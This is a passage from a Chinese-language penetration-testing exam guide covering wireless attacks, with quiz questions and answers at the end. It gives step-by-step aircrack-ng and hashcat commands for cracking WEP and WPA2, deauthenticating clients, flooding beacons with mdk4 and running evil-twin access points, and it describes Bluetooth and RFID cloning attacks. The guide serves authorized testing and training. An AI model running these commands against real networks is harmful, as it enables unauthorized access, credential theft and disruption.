在支持注入的无线网卡接口上启用监听模式。在本例中，`wlan1` 被切换为 `wlan1mon` 以进入监听模式。

```
########## airmon-ng start wlan1
```

######### 3. 识别目标网络信道

使用已启用监听模式的无线接口，通过 BSSID（MAC 地址）或 ESSID（即网络名称）识别你的 WEP 网络所在的信道。信道号将列在“CH”列下。在本例中，接入点运行在信道 9 上。

```
########## airodump-ng wlan1mon
```

一旦识别出信道，使用 `CTRL-C` 退出 `airodump-ng`，并记下目标 AP 的信道、网络名称和 MAC 地址。

######### 4. 测试数据包注入

测试无线设备的数据包注入能力，如下所示。如果收到“Injection is working!”，则可以继续进行步骤 5。如果没有，请检查以确保你使用的是兼容的无线网卡。

```
########## aireplay-ng -9 -e <network name> -a <target MAC> <interface>
```


命令选项包括以下内容：

*   **`-9`** 表示注入测试
*   **`-e`** 无线网络名称
*   **`-a`** 目标 AP 的 MAC 地址
*   **`<interface>`** 你的无线接口名称

######### 5. 使用 airodump-ng 捕获 IV

启动 `airodump-ng` 以捕获来自接入点的 IV。为此，使用 `airodump-ng` 并将收集到的数据包存入文件中。稍后你将使用此文件破解 WEP 密钥。下图展示了执行以下命令后的示例 `airodump-ng` 会话：

```
########## airodump-ng -c 9 --bssid <target MAC> -w wep-output <interface>
```


**提示** `airodump-ng` 工具会在信道间跳跃，这会限制你收集恢复目标网络 WEP 密钥所需的所有数据包的能力。停留在特定信道上将有助于增加成功利用的几率。


命令选项包括以下内容：

*   **`-c`** 你要停留的信道
*   **`--bssid`** 目标 AP 的 MAC 地址
*   **`-w`** 包含 IV 的输出文件
*   **`<interface>`** 你的无线接口名称

######### 6. 伪造认证

现在，使用 `aireplay-ng` 向接入点发起伪造认证请求，并尝试与网络关联。你应该在进行上一步的同时执行此操作，以确保收集所有重放的数据。在一个单独的终端窗口中，使用以下命令语法执行 `aireplay-ng`：

```
########## aireplay-ng -1 0 -e <network name> -a <target MAC> -h <wireless MAC> <interface>
```

示例输出如下：


命令选项包括以下内容：

*   **`-1`** 使用伪造认证
*   **`0`** 重新关联时间间隔（秒）
*   **`-e`** 无线网络名称
*   **`-a`** 目标 AP 的 MAC 地址
*   **`-h`** 你的无线接口 MAC 地址
*   **`<interface>`** 你的无线接口名称


**警告** AP 不会接受来自尚未与网络关联的源 MAC 地址的数据包。如果 AP 检测到来自未关联源 MAC 的数据包，它将忽略该数据包并发送一个明文的去认证数据包，因此不会创建新的 IV，因为注入的数据包将被忽略。

######### 7. ARP 请求重放

下一步是以 ARP 请求重放模式启动 `aireplay-ng`。当程序识别到 ARP 请求时，会立即开始注入，如下所示：

```
########## aireplay-ng -3 -b <target MAC> -h <wireless MAC> <interface>
```


命令选项包括以下内容：

*   **`-3`** 监听/注入 ARP 请求
*   **`-b`** 目标 AP 的 MAC 地址
*   **`-h`** 你的无线接口 MAC 地址
*   **`<interface>`** 你的无线接口名称


**提示** 让 `aireplay-ng` 命令运行几分钟以捕获足够的数据包：

*   64 位 WEP 密钥是一个 10 位数字的密钥
*   128 位 WEP 密钥是一个 26 位数字的密钥

给定足够的 IV，破解任一长度的密钥大约需要五分钟。然而，如果等待一段时间后屏幕显示“got 0 ARP requests”，请从目标网络上的无线客户端开始 ping 无效的 IP 地址。

######### 8. 停止捕获并验证 IV

一旦你认为捕获了足够的 IV（例如，5,000 个 IV 似乎足以相对快速地破解 WEP 密钥），使用 `CTRL-C` 终止前面步骤中执行的 `airodump-ng` 和 `aireplay-ng` 命令，以允许命令完成向输出文件的写入。`.cap` 文件是一个 PCAP 文件，也可以在 Wireshark 中重放。下图展示了广播数据包的 WEP 参数中捕获的一个 IV 示例。


######### 9. 破解 WEP 密钥

现在，你可以使用 `aircrack-ng` 利用步骤 3 中捕获的 IV 来破解目标 AP 的 WEP 密钥。你可能会有多个 `.cap` 文件。你可以使用通配符指定所有文件，让 `aircrack-ng` 自行处理：

```
########## aircrack-ng -b <target MAC> wep-output*.cap
```

命令如下：

*   **`-b`** 目标 AP 的 MAC 地址


**提示** 当网络上没有客户端时，实现 WEP 密钥恢复的另一种方法是执行碎片攻击。这种攻击通过向无线接入点注入任意数据包来加速破解过程，但并不实际破解密钥。碎片攻击利用了 RC4 中伪随机生成算法（PRGA）序列的特性：在 4,096 个数据包后，有 2 个数据包很可能共享相同的 IV，从而拥有相同的 RC4 密钥。在 Kali Linux 中，你可以使用带有碎片攻击选项（`-5`）的 `aireplay-ng` 来恢复 PRGA，然后使用 `packetforge-ng` 命令执行注入攻击，最终恢复 WEP 密钥。你可以在 [www.aircrack-ng.org](http://www.aircrack-ng.org) 阅读更多关于这些类型攻击的信息。

---

####### 破解 WPA-PSK 和 WPA2-PSK

WPA 和 WPA2 都依赖四次握手和认证方法。如果你需要复习四次握手，请参阅图 4-5。我们可以使用相同的基本方法来破解它们。虽然它们使用不同强度的加密协议，但两者都容易受到暴力破解。首先，假设你可以捕获握手包。让我们根据网络上可用的信息盘点一下已知条件：

*   AP 和 supplicant（客户端）的 SSID
*   AP 和 supplicant 的 MAC 地址
*   ANonce 和 SNonce（消息 1 和消息 2）
*   用于生成 PMK 的算法
*   MIC（来自消息 2 和 3）

这意味着如果你能捕获四次握手，就可以利用已知信息结合猜测字典生成自己的 PMK。然后你可以使用 MIC 来测试生成的 PMK，看它是否对该网络有效。


######## 使用 Aircrack 工具破解 WPA2 网络（预共享密钥）

现在，我们将通过一个练习，使用 Aircrack 工具套件通过预共享密钥破解 WPA2 网络。我们假设目标是一个配置了简单密码（易受字典攻击）的测试 WPA2 网络，该网络至少有一个无线客户端在线，你可以随意使该客户端去认证，且你使用 Kali Linux 作为攻击主机。

开始前，请先完成 WEP 练习中的步骤 1-3，以识别托管测试 WPA2 网络的目标 AP 的信道和 MAC 地址。如果你已知晓这些信息，可直接进行。我们的首要目标是尝试捕获握手包。

######### 1. 启动 `airodump-ng`

无线客户端将显示在 `STATION` 列下，并报告其关联的 AP 的 `BSSID`。下图展示了在信道 4 上启动 `airodump-ng` 以针对目标 AP 捕获握手包的示例。


命令选项如下：

*   **`-c`** 指定监听的信道
*   **`--bssid`** 目标 AP 的 MAC 地址
*   **`-w`** 包含四次握手包的输出文件名
*   **`<interface>`** 你的无线网卡接口名称

```bash
########## airodump-ng -c 4 --bssid <target MAC> -w <outfile> <interface>
```

######### 2. 捕获四次握手

如果你足够耐心，可以等待客户端自然地从网络去认证，此时你将捕获到握手包，`airodump-ng` 会在终端窗口右上角报告握手包捕获情况。然而，为强制触发该过程，你可以使用 `aireplay-ng` 使现有无线客户端去认证，从而捕获四次握手。下图展示了使 Windows 客户端去认证后捕获握手包的示例。打开一个新的终端窗口，使用以下命令语法执行 `aireplay-ng`：

```bash
########## aireplay-ng -0 1 -a <target MAC> -c <target MAC> <interface>
```

命令选项如下：

*   **`-0`** 去认证攻击
*   **`1`** 发送给无线客户端的去认证包数量
*   **`-a`** 目标 AP 的 MAC 地址
*   **`-c`** 目标无线客户端的 MAC 地址
*   **`<interface>`** 你的无线网卡接口名称


> **TIP**  
> 被去认证的无线客户端可能会连接到其已知的其他网络，这将导致你无法捕获握手包，直到它重新连回目标网络。

######### 3. 破解 WPA PSK

一旦使用 `airodump-ng` 捕获到握手包，即可使用字典攻击（而非 WEP 的暴力破解）进行破解。使用 `aircrack-ng` 及你偏好的字典文件破解握手包中发现的 PSK。Kali 自带了一些位于 `/usr/share/wordlists` 的字典文件。本练习使用位于该目录下的 `rockyou.txt` 列表成功破解了 PSK，如下图所示。使用 `CTRL-C` 关闭运行 `airodump-ng` 的终端窗口，然后使用以下命令语法破解 WPA PSK：


命令选项如下：

*   **`-w`** 字典文件
*   **`-b`** 目标 AP 的 MAC 地址
*   **`<outfile>`** 包含四次握手包的输出文件


######## 其他破解方法

根据工具偏好和恢复 PSK 所需的复杂度，还有其他方法可用于破解 WPA/WPA2 PSK。在 Kali 中，可使用 `genpmk` 命令通过预计算哈希并将其保存到哈希文件中来构建 PMK 表（彩虹表）。随后，可结合 PCAP 文件中的四次握手包和 `genpmk` 生成的哈希文件，使用 `cowpatty` 命令破解 WPA/WPA2 密钥。该哈希文件可在未来的测试中复用，以加速破解过程。

许多人倾向于使用 `hashcat` 执行字典、暴力或基于规则的攻击，因为基于图形处理单元（GPU）的密码猜测通常快得多。`hashcat` 不支持 PCAP 格式的握手包。不过，可使用 `hashcat-utils` 中的 `cap2hccapx` 工具将 `.cap` 文件转换为 `hashcat` 专用的 "hccapx" 文件格式。`hashcat-utils` 项目包含协助复杂密码破解的实用二进制文件。可从 [`github.com/hashcat/hashcat-utils/releases`](https://github.com/hashcat/hashcat-utils/releases) 下载最新版本（撰写本书时最新版为 `hashcat-utils-1.9.7`），其中包含源代码及 Windows 和 Linux 的预编译二进制文件。下载预编译二进制文件或编译源代码后，可使用以下语法执行 `cap2hccapx` 命令将 PCAP 格式转换为 hccapx：

```bash
# ./cap2hccapx <outfile>.cap <newfile>.hccapx
```

命令选项如下：

*   **`<outfile>`** 步骤 1 中使用 `airodump-ng` 捕获的包含四次握手包的 PCAP 文件
*   **`<newfile>`** 要创建的新 hccapx 格式文件名

若命令执行成功，终端将打印写入新 `.hccapx` 文件的 WPA 握手包数量。在执行 `hashcat` 前，请通过在命令行运行 `hashcat –I` 验证其能否识别你的 GPU 或 CPU。请访问 `hashcat` 官网 ([`hashcat.net/hashcat`](https://hashcat.net/hashcat)) 确认你的环境满足最新驱动要求；否则 `hashcat` 可能无法运行。在 Kali Linux 中，使用 `rockyou.txt` 字典对新的 hccapx 格式文件执行字典攻击，命令语法如下：

```bash
# hashcat –m 2500 <newfile>.hccapx rockyou.txt
```

命令选项如下：

*   **`-m`** 指定哈希类型（即 `2500` = WPA/WPA2）
*   **`<newfile>`** hccapx 格式文件名

若命令执行成功，你将看到密钥的明文值。`hashcat` 官网提供的 Wiki 中包含关于如何对 hccapx 文件进行暴力攻击（通过组合计算长度、字符类型等）以及基于规则的攻击方法（使用预定义规则集变异字典，如大小写转换等）的额外指南。这些方法有助于提高攻击效率。

######## 攻击 Dragonfly 握手（Dragonblood 攻击^2）

请记住，WPA3 实现了 SAE，也称为 Dragonfly 密钥交换。可扩展认证协议-密码（EAP-PWD）认证方法用于某些企业网络，也使用 Dragonfly 握手，可能易受相同攻击。Mathy Vanhoef 和 Eyal Ronen 的研究揭示了其易受多种攻击类型影响，即使实施了额外安全措施亦是如此。

他们的研究表明，WPA3 连接可能被诱导降级为较弱协议（如 WPA2），或通过流氓 AP 和伪造消息选择弱安全组，或根据对承诺帧响应的时间推断密码信息。我们将在本章后面讨论流氓 AP 攻击。但攻击者可使用 Dragonslayer 概念验证工具尝试使用有效用户名绕过认证，使用 Dragontime 概念验证工具在目标支持特定配置时基于时序测试密码泄露，并使用 Dragonforce 概念验证工具尝试基于时序攻击破解密码。这些工具可在 Mathy Vanhoef 的 GitHub 仓库中找到：[`github.com/vanhoefm`](https://github.com/vanhoefm)。

###### 干扰及其他拒绝服务攻击


####### 干扰 Wi-Fi

根据 FCC 的规定，在美国干扰 Wi-Fi 是非法的。^(3) 这适用于使用设备生成旨在干扰其他合法无线电信号（如 Wi-Fi 或蜂窝网络）的无线电信号的行为。然而，通过协议滥用实施的拒绝服务攻击仍然是合法的，并且可能是在渗透测试期间你需要执行的操作。例如，如果你需要强制目标连接到你的设备以捕获流量，你可能需要暂时针对另一个网络进行攻击。

显然，在发起拒绝服务攻击时你需要谨慎，并确定其影响范围在你的测试授权范围内。你可以使用诸如 `mdk4` 之类的工具（它是 aircrack-ng 工具套件的一部分）来发起拒绝服务攻击，例如：

- 信标泛洪，可能向客户端显示虚假 AP
- 用认证帧淹没 AP
- 向客户端发送重复的取消认证和解关联数据包，将其强制踢出网络
- 故意触发防御锁定（TKIP 中的 Michael 对抗措施）
- 发送虚假会话以淹没 AP

让我们快速演示一下如何使用此工具。

**1.** 首先，如果 Kali 中尚未安装该工具，请进行安装。

```
$ sudo apt install mdk4
```

**2.** 它必须以 root 权限运行，因此你需要为每个命令输入 `sudo`，或者使用 `sudo su –` 切换用户上下文。要获取帮助，可以查看单个模块。以下命令将显示信标泛洪模块的帮助信息：

```
$ sudo mdk4 --help b
```

**3.** 让我们用它向附近区域泛洪大量虚假 AP 名称。这将使用我们的无线网卡 `wlan01`，`-b` 指定信标泛洪模式，`-a` 生成包含不可打印字符且长度超过 32 字节的 SSID，`-m` 使用制造商的有效 MAC 地址作为虚假 AP 的地址，`-s` 设置每秒发送 500 个数据包。

```
sudo mdk4 wlan01 -b -a -m -s 500
```

**4.** 现在，当客户端搜索无线网络时，将看到大量垃圾 AP 可供选择。

###### 非法接入点

根据渗透测试的交战规则，你可能被授权针对网络上的无线目标通信进行攻击，以收集凭据或敏感数据，这有助于进一步的目标开发和利用。实现这一点的一种方法是充当欺诈性 Wi-Fi 接入点，即所谓的“邪恶双胞胎”。HostAP（在 Kali Linux 中：`apt-get install hostapd`）是一款流行的接入点软件，可在 Kali Linux 等计算机操作系统上运行。它允许主机执行典型无线路由器的所有功能。


**考试提示** 非法 AP 攻击可用于针对依赖 RADIUS 的企业级实现。HostAP 和 EAPhammer 等攻击工具可以发起 Karma 攻击等，有助于攻击这些网络。你也可以使用 `airbase-ng` 和 `aireplay-ng`。

对于 WPA 和 WPA2 企业级网络，HostAP 提供对 RADIUS 认证的支持，并支持对无线客户端实施冒充攻击。`hostapd-wpe` 支持针对各种认证协议的冒充，包括密码认证协议 (PAP)、质询握手认证协议 (CHAP) 和微软版 CHAP (MS-CHAPv2)。一旦客户端连接并发送用户凭据（在许多情况下可能是来自 Active Directory 的用户名/密码哈希），`hostapd-wpe` 可配置为向客户端发送 EAP 成功消息，从而欺骗客户端认为其刚刚通过了合法 RADIUS 认证服务器的认证。

此时可以执行额外的离线攻击和中间人攻击，例如破解 NTLMv2 哈希，或通过动态主机配置协议 (DHCP) 租约、域名系统 (DNS) 重定向等提供网络连接。实施服务器证书验证是缓解此类冒充攻击的一种方法。然而，最薄弱的环节可能是用户——如果他或她接受了在向恶意 AP 认证期间提示的未知或自签名服务器证书警告。`hostapd-wpe` 工具是 HostAP 软件的修改版，旨在协助实施中间人攻击，如邪恶双胞胎和 Karma 攻击。更多信息请访问 [`tools.kali.org/wireless-attacks/hostapd-wpe`](https://tools.kali.org/wireless-attacks/hostapd-wpe)。

Karma 攻击是一种 AP 方法，用于监听客户端发出的任何网络探测请求以加入特定网络，而不仅仅是像邪恶双胞胎攻击那样针对某个特定目标网络。反过来，它会重新广播受害者的 ESSID，以诱使受害者连接到邪恶网络。例如，如果你在移动设备上开启无线功能并外出购物，你的手机将探测其之前关联过的网络。如果你曾经连接过开放接入网络，你的手机很可能会在某个时刻尝试连接该 SSID（前提是无线网卡尚未连接）。这可能使你的手机容易受到 Karma 攻击，因为邪恶双胞胎只需知道要复制的网络的 SSID 值，而不需要 PSK。

冒充网络 SSID 的另一种方法是使用 `Airbase-ng` 实用程序。使用 Kali Linux，你可以执行以下命令来创建合法网络的“邪恶双胞胎”：

```
# airbase-ng –a <bssid> –-essid <wireless name> –c <channel> <interface>
```

网络启动并运行后，你需要强制客户端连接。为此，你可以使用 `aireplay-ng` 发送取消认证数据包。所有客户端都将从 AP 断开连接并尝试重新连接网络。使用 Kali Linux，你可以执行以下命令强制客户端从合法 AP 取消认证：

```
# aireplay-ng –deauth 0 –a <target AP MAC> <interface> –ignore-negative-one
```


**警告** 如果并非所有客户端都重新连接到你的邪恶双胞胎 AP，你可以增强无线网卡的信号强度使其强于合法 AP，或者尝试尽可能靠近你想要攻击的无线客户端。提高无线网卡的发射功率可能很危险，且在某些国家属于违法行为。默认的 Tx-Power 设置通常为 20 dBm，但可以通过使用 `iw reg set BO` 更改无线网卡的监管域设置，然后用 `iwconfig <interface> txpower 30` 将其提高到 30 dBm。这样做可能导致网卡过热，并可能损坏无线网卡或你的测试设备。

############### 会话劫持

一旦无线客户端连接到你的邪恶双胞胎 AP，你就可以开始使用 Wireshark 监控并捕获其流量。当网络用户登录网站时，会为该会话创建一个会话 Cookie。如果你能从 HTTP 会话中提取会话 Cookie，就可以利用该会话与目标网站进行交互。这可能是通过管理控制台在网络上提权的一种便捷方式。


**注意** 除非你能充当目标 WLAN 用户与其请求的网站之间的中转（因为你的设备连接到了互联网或内网，具体取决于你的目标），否则邪恶双胞胎攻击对会话劫持帮助不大。

#### 攻击蓝牙


##### 802.15 标准组

802.15 标准组定义了各类无线个域网 (WPAN) 的规范，包括蓝牙和 ZigBee。这两种技术都运行在同一个无线频段上（2.4 GHz 频段内的 2400 至 2483.5 MHz）。ZigBee 是一种网状网络协议，旨在在短距离内传输大量数据包。蓝牙与此类似，因为它也在短距离内传输数据。蓝牙可应用于不同的消费类技术中，包括音箱、打印机、耳机、键盘和手机。与 Wi-Fi 非常相似，蓝牙因常见漏洞而易受各类数据渗出和远程利用攻击，例如：

- 遗留或有缺陷的蓝牙实现
- 易受暴力破解攻击的短 PIN 码
- 用户在公共场所配对蓝牙设备

我们将在接下来的几节中进一步介绍这些类型的攻击。

###### 蓝牙的主要层

蓝牙在其协议栈中包含多个层。以下是协议栈的主要层：

- **SDP** —— 服务发现协议，用于发现范围内其他设备提供的蓝牙服务。
- **LMP** —— 链路管理协议，用于跟踪已连接的设备。
- **L2CAP** —— 逻辑链路控制和适配协议，为蓝牙协议栈的上层提供数据服务。
- **RFCOMM** —— 射频通信，使用 `L2CAP` 向其他设备提供模拟串口。
- **TCS** —— 电话控制协议，使用 `L2CAP` 并提供电话功能。

####### 蓝牙规格

例如，蓝牙的设计范围比 Wi-Fi 受限得多。这使其成为计算外设和小型消费类电器的理想选择。蓝牙低功耗 (BLE) 速度较慢，但随时间推移耗电更少，这使其成为为物联网 (IoT) 和机器对机器 (M2M) 应用（如 Fitbit 手环和血压监测仪）供电的理想选择，同时支持长达数年的电池寿命。表 4-3 展示了蓝牙、蓝牙 4.0 LE 和蓝牙 5.0 LE 的对比。


**表 4-3** 蓝牙实现对比

####### 设备发现

信息收集是攻击蓝牙设备的第一步。此过程称为蓝图绘制。BlueZ ([`www.bluez.org`](http://www.bluez.org)) 是大多数 Linux 发行版（包括 Kali Linux）中蓝牙的默认协议栈。BlueZ 包含的默认功能可用于启用或禁用蓝牙适配器，也可用于在信息收集过程中进行基本侦察。为了能够测试或发现远程蓝牙设备，你需要有一个兼容的适配器（USB 加密狗）。在 Kali 中，你可以通过在命令提示符下执行 `hciconfig` 命令来验证蓝牙适配器（内置或 USB）是否存在。如果适配器存在，你将看到 MAC 地址和其他设备信息，这很像运行 `ifconfig` 或 `iwconfig` 命令。要启用接口，请输入：

```
hciconfig hci<#> up
```

启用接口后，你可以在 Kali Linux 中使用 `hcitool` 命令来发现和查询其他设备、向设备进行认证等。使用 `--help` 选项可列出其他命令选项。`bluelog` 扫描器是安装在 Kali Linux 中的另一个命令行实用程序，可协助进行蓝牙设备发现。要查看 Kali Linux 中可用的发现工具完整列表，请查看 [`tools.kali.org/tag/bluetooth`](https://tools.kali.org/tag/bluetooth)。


**注意** Ubertooth ([`ubertooth.sourceforge.net`](http://ubertooth.sourceforge.net)) 是一个适合蓝牙实验的开发平台。如果你不想自己动手构建蓝牙测试适配器，Ubertooth One（可通过亚马逊购买）是一个硬件平台（USB 适配器），经过定制和调整，支持安装来自 Ubertooth 平台的工具。

####### 蓝牙攻击

蓝牙是一个健谈的协议，当设备在范围内时，它可能成为攻击目标并被利用，这使得用户很难察觉到正在发生恶意活动。一旦你获取了蓝牙设备的指纹列表，就可以实施额外的远程攻击，例如从移动设备窃取和收集敏感信息。

Bluesnarfing（蓝牙窃取）是利用某些蓝牙固件中发现的漏洞，从无线设备窃取信息的过程。成功的攻击能够在蓝牙设备开启并设置为可发现模式时，窃取联系人、日历信息、电子邮件和短信。过去，某些供应商固件中的漏洞可能被利用，且无需用户确认即可完成设备配对。Bluesnarfer 是 Kali Linux 中的一个工具，能够实施这种攻击方式。


**注意** 调制解调器已经存在了几十年。AT 命令是用于控制调制解调器的指令。此功能超出了本书的覆盖范围；不过，你可以在此处进一步阅读关于移动平台（如 Android）中 AT 命令的漏洞分析：[`atcommands.org`](https://atcommands.org)

无论是垃圾邮件、电子邮件还是短信，垃圾信息都令人恼火，既可能被合法企业用来诱导消费者购买特定产品，也可能被垃圾发送者用来诱骗受害者下载软件、点击链接或汇款。垃圾信息也可以通过蓝牙传递。我们将在接下来的几节中讨论其中一些方法。

向移动用户发送未经请求消息的一种方法称为蓝牙垃圾信息攻击。此方法在用户不知情的情况下向设备传输数据。通常，这种攻击可通过蓝牙向不知情的受害者发送电子名片来实施。攻击者不在姓名字段填写真实姓名，而是插入一条隐蔽的信息。为了应对这种攻击，手机制造商限制了手机处于可发现配对模式的时间长度。这有助于缩短针对蓝牙设备的攻击窗口。

#### RFID 和 NFC

射频识别 (RFID) 是一种由应答器（标签）和带天线的读取器组成的系统。标签可以是无源（被动）的，也可以有自己的电源（主动）。无源标签由读取器供电。当靠近读取器时，它们会响应一个值（通常是静态值）。一个熟悉的例子是某些员工工牌。主动标签始终广播其数据，并由读取器接收。一个熟悉的例子是汽车的高速公路通行证。RFID 标签分为低频 (LF) 或高频 (HF)，范围以厘米计；或为超高频 (UHF)，范围超过一米。

NFC 设备属于 RFID 设备，工作在与 HF RFID 相同的频率上。NFC 设备既可充当天线也可充当应答器，并能在极短范围（厘米级）内参与点对点交易。由于它们能够收发数据且通常具备计算能力，因此常参与更复杂的认证协议。这些协议常应用于非接触式支付系统、手机和某些门禁系统中。这两种 RFID 技术均实现了各种认证协议。某些实现容易受到类似的攻击手法影响，包括中间人攻击、克隆、暴力破解攻击、放大攻击和重放攻击。


像 ESPKey ([`redteamtools.com/espkey`](https://redteamtools.com/espkey)) 这样的设备非常小，可以安装在标签和读卡器之间以拦截流量，而不会引起怀疑。它们可以接收信号、记录信号，并以最简单的中间人攻击形式将其传递给合法读卡器。这些攻击通常涉及修改现有读卡器，这可能会改变其外观，或者将设备放在合法设备顶部，非常类似于读卡器窃取器（skimmer）。防篡改机制，如安全胶带、专用螺丝或防篡改布线，通常是针对这些攻击的有效措施。

RFID 克隆（或工牌克隆）是从一张 RFID 卡（或钥匙扣）读取一系列比特，并将相同的比特系列写入另一张兼容卡的过程。近距离读卡器是商业应用中常见的安全访问机制，使用通过 RF 控制的非接触式卡技术（近距离卡或 prox 卡）。近距离读卡器最大的区别在于它们如何连接到访问控制系统——要么通过无线连接，要么通过有线连接。

近距离卡是通常在 125 至 134.2 kHz 的 LF 频段工作的传统技术。该卡将广播一个 26 至 37 位的密钥/编号，该编号由计算机软件配置。当钥匙扣/卡在近距离读卡器前出示时，距离不得超过 15 英寸。钥匙扣/卡的数据被读取并发送给控制器，以授予或拒绝访问。授予访问权限时，控制器会释放物理锁定机制以允许开门。在撰写本文时，你可以通过亚马逊以不到 100 美元的价格购买 RFID 读写器，如插图所示。


**提示** 在 Black Hat USA 2013 ([`blackhat.com`](https://blackhat.com)) 上进行的“RFID Hacking: Live Free or RFID Hard”演示仍然是 RFID 黑客攻击的绝佳参考资料。

当系统日志被主动监控时，暴力破解攻击既耗时又显眼。然而，如果你能收集足够的关于系统的情报，对所用协议或系统使用的标识符范围做出合理的猜测，你可能能够使用硬件设备（如 Proxmark Pro ([`proxmark.com/`](https://proxmark.com/)））生成随机的 RFID 标识符组合并发送给读卡器，以尝试强行攻破系统。这些攻击通常必须在近距离内执行。实现内置延迟的系统能抵御这些攻击。

通常，这些设备的范围非常短。但如果你能放大信号并增加该范围会怎样？Tastic RFID Thief 设备使用带有内部存储和扩展范围的改装 RFID 读卡器，从几英尺外收集访问工牌的信息。然后可以利用这些数据在人们路过时克隆工牌。BishopFox 维护了一篇优秀的文章，其中包含设备构建的演练和设备使用的视频：[`resources.bishopfox.com/resources/tools/rfid-hacking/attack-tools/`](https://resources.bishopfox.com/resources/tools/rfid-hacking/attack-tools/)

大多数此类攻击依赖于从 RFID 标签传输静态值。实施更复杂协议或使用具备安全握手能力的 NFC 设备的访问控制系统不易受这些攻击影响。其他缓解措施包括受监控的日志记录和安全摄像头、强制延迟或锁定、安全标签存储（如信号屏蔽套）以及物理防篡改机制。

### 章节回顾

正如我们在本章中所学，Wi-Fi 和 RF 信号既容易被发现，也容易被攻破。很难阻止两个无线电相互通信。Wi-Fi 加密有助于在无线网络中提供机密性；然而，每种加密协议都有其自身的弱点。WPA-PSK 和 WPA2-PSK 改进了 WEP 的缺陷，但仍易受离线暴力破解攻击。WPA 和 WPA2 Enterprise 通过 RADIUS 认证消除了 WPA 个人网络共享 PSK 的要求，但用户通信仍可能被针对，并成为与 WPA 和 WPA 个人版相同的离线攻击的受害者。蓝牙的短距离能力使得渗透测试设备相当困难，除非你在目标设备的近距离范围内。尽管多年来大多数固件漏洞已得到修复，但仍存在一些方法（以及一些针对 Bluebourne 漏洞等近期公开漏洞利用的方法），可用于对已配对设备或处于发现模式的设备发起 DoS 攻击。无线通信是典型有线网络的替代方案，并将随着更新技术（包括物联网和 SCADA 监控组件）继续获得普及。WPA3 的最新发展表明 Wi-Fi 联盟致力于建立持续的认证流程，以改进明天技术的安全标准。

################ 问题

**1.** WEP 使用一种称为 RC4 的加密算法，由 Ronald Rivest 开发。RC4 是一种 ________ 密码，这是一种对称密钥密码，用于将短密钥扩展为无限的伪随机密钥流。

**A.** 流

**B.** 非对称

**C.** 分组

**D.** 密钥

**2.** CRC-32 是一种用于验证 WEP 网络数据包完整性的算法，也用于不同应用中以检测硬件变化。CRC-32 基于原始的循环冗余校验，不建议用于验证现代技术的完整性，因为 ___________。（选择最佳答案。）

**A.** 它是一种较旧的完整性检查软件形式，存在多个漏洞。

**B.** CRC-32 是 CRC 的一种变体，基于非加密算法，对于数据篡改几乎不提供任何保证。

**C.** CRC 是 CRC-32 的一种变体，基于加密算法，对于数据篡改几乎不提供任何保证。

**D.** 它是一种较旧的完整性检查软件形式，几乎没有漏洞。

**3.** 为了破解 WEP，你需要在网络数据包中捕获足够的初始化向量 (IV) 以恢复密钥。WEP 密钥可以有两种不同的长度。十位密钥长度为 64 位。128 位的密钥长度有多少位？

**A.** 24

**B.** 16

**C.** 26

**D.** 28

**4.** 使用 WPA 时，无线客户端和接入点都知道预共享密钥以加入网络。在授权过程中，每个设备将使用 PSK 生成成对主密钥 (PMK)，以派生 __________，用于加密发送给接收主机的数据包。这种密钥叫什么？

**A.** 预共享密钥

**B.** 成对共享密钥

**C.** 成对传输密钥

**D.** 成对临时密钥

**5.** 在渗透测试期间，你的团队发现一个正在广播 SSID 值且仅受 WEP 加密保护的接入点。你的团队尝试使用 `aireplay-ng` 在网络上重放注入的 ARP 数据包；然而，该工具未在网络上捕获到任何 ARP 回复。这很可能是因为没有客户端在网络上通信。为了加快破解过程，你建议团队做什么？（选择最佳答案。）

**A.** 使用 MiTM 工具攻击正在网络上主动监听的客户端。


**B.** 使用 `ping` 命令 ping 网络上不存在的主机。

**C.** 尝试通过网络 telnet 或远程登录到其他主机。

**D.** 在浏览器中访问网页以生成一些网络流量。

**6.** PBKDF2 使用以下值计算 PMK，除了哪一个？

**A.** 密码/短语 (PSK)

**B.** 接入点 SSID 或 ESSID

**C.** SSID 或 ESSID 的长度

**D.** 设备的主机名

**7.** 为了破解 WPA 或 WPA2 PSK，你需要捕获四次握手。在渗透测试中，你的团队在目标网络上识别出多个客户端。捕获握手的最佳方式是什么？

**A.** 取消认证其中一个客户端

**B.** 在网络上发送多个 ARP 请求

**C.** 取消认证网络上的所有客户端

**D.** 向接入点发送多个 ARP 请求

**8.** 邪恶双生接入点是一种攻击类型，用于复制合法接入点的存在，以诱使受害者连接，从而针对最终用户设备或通信。模仿客户端信标请求中所有可能的接入点的另一种方式叫什么？

**A.** Karma 攻击

**B.** 重放攻击

**C.** AP 重放攻击

**D.** 社会工程学攻击

**9.** 以下哪项容易受到克隆攻击？

**A.** BLE

**B.** UDP

**C.** WEP

**D.** RFID

**10.** 以下都是蓝牙协议栈中的层，除了哪一个？

**A.** LMP

**B.** SDP

**C.** L2CAP

**D.** TC2

**E.** RCOMM

#### 答案

**1.** **A** RC4 是一种较旧的加密算法，有助于加密 WEP 网络。RC4 是一种流密码，用于将明文与伪随机密钥流结合。

**2.** **B** CRC-32 是一种基于 CRC（循环冗余校验）的非加密算法。由于该算法基于代码生成和密码学，它在完整性方面提供的价值很小，因为该值可以轻易被重现。

**3.** **C** 64 位长度的 WEP 密钥为 10 位数字，128 位密钥长度为 26 位数字。

**4.** **D** PMK 永远不会在网络上暴露；相反，成对临时密钥 (PTK) 从 PMK 派生，并用于加密网络通信。

**5.** **B** 对不存在的主机重复使用 `ping` 将生成多个以 AP 为主机的 IV，但永远不会被识别，且请求将继续在整个网络中传播。

**6.** **D** PMK 从除设备主机名外的所有选项派生。缺失的值是 256（PMK 的长度）和 4096（哈希迭代次数）。

**7.** **A** 取消认证会告知客户端与无线网络取消关联。一次取消认证一个客户端，直到捕获到握手，这将是推荐的行动方案，因为它有助于保持方法的隐蔽性，并且是在交互过程中引起客户抵触情绪最小的方法。

**8.** **A** Karma 攻击将针对其发现的任何 SSID，以增加被利用的可能性。

**9.** **D** 传输静态值的 RFID 标签可能被拦截并重放，或放置到克隆设备上，以绕过某些访问控制系统。

**10.** **D** TC2 不是蓝牙协议栈的有效层。然而，TCS 是协议栈中的有效层，用于控制移动设备上的电话功能。

### 参考资料

